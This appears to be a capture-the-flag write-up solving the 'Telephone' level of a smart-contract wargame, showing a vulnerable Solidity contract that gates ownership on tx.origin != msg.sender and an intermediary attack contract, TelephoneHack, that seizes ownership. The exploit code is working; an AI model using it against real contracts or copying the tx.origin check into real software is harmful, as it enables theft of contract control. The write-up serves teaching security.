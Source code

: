 # Task

Claim ownership of the contract below to complete this level.

# Contract
 
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
What does this contract do??

1. The `owner` variable stores the address of the current owner, initially set to the address that deployed the contract (msg.sender in the constructor).

2. The `changeOwner` function can be called by anyone, but the ownership will only be transferred if `tx.origin` (the original external account initiating the transaction) is different from `msg.sender` (the immediate caller of the function).

Now, this restriction prevents a direct call from changing ownership because I tried to change  ownership directly using cast but then it didn't work; it requires a contract or intermediary to call the function on behalf of the original sender. 

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
This attack contract exploits the Telephone contract's ownership change condition. It calls `changeOwner` through a contract (instead of directly), which tricks the `Telephone contract` into satisfying the `tx.origin != msg.sender` check, allowing ownership to be transferred to the specified address.

Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)

Checking the owner of the contract again

![image](https://github.com/user-attachments/assets/f7be04f3-be92-4371-b83a-bcde020e9291)

We already became the owner of the contract

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/e95c2118-0567-4d69-aa7e-c5175c2a553c)

We have successfully completed this level

-------------------------

Till Next Time :xD






































